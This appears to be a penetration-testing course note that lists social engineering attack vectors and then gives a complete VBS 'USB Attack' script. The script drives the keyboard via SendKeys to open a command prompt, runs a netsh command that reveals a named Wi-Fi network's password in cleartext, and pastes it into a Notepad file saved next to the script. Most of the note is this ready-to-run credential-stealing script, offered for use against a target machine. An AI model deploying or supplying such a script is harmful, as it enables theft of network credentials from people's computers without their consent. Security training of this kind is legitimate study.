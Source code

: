 # 01_Attack Vectors

[Attack Vectors 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=122ac6f6-b87c-45b1-a651-5a2c3bd981ab&finalAssessment=false)

### Social Engineering Attack Vectors

- Pretexting
- Diversion theft
- Phishing
- Spear phishing
- Baiting
- Tailgating
- Vishing
- Water holing

### [USB Attack &#128279;](https://www.youtube.com/watch?v=hIk7hVqGjp0)

VBS Script :

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Define the Wi-Fi network name and Notepad file name
Dim wifiName
wifiName = "targetwifiname"
Dim notepadFileName
notepadFileName = "yourdocument.txt"

' 👉 Create the object for sending keys
Set x = CreateObject("WScript.Shell")

' 👉 Send the Windows key to open the Start menu
x.SendKeys "^{ESC}"
WScript.Sleep(1000)

' 👉 Open the Command Prompt
x.SendKeys "cmd"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Run the "netsh" command to show profiles and copy to clipboard
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear | clip"
WScript.Sleep(100)
x.SendKeys "{ENTER}"
WScript.Sleep(100)

' 👉 Exit the Command Prompt
x.SendKeys "exit"
WScript.Sleep(100)
x.SendKeys "{ENTER}"
WScript.Sleep(100)

' 👉 Get the script's directory
strScriptDir = objFSO.GetParentFolderName(WScript.ScriptFullName)

' 👉 Build the full path to the Notepad file
strFilePath = objFSO.BuildPath(strScriptDir, notepadFileName)

' 👉 Check if the file exists
If objFSO.FileExists(strFilePath) Then
' 👉 Open Notepad with the specified file
objShell.Run "notepad.exe " & strFilePath
Else
WScript.Echo "File not found: " & strFilePath
End If

' 👉 Add a 2-second delay
WScript.Sleep(2000)

' 👉 Paste the contents into Notepad (Ctrl+V)
x.SendKeys "^v"
WScript.Sleep(100)

' 👉 Save changes in Notepad (Ctrl+S)
x.SendKeys "^s"
WScript.Sleep(100)

' 👉 Close Notepad (Alt+F4)
x.SendKeys "%{F4}"
WScript.Sleep(1000)
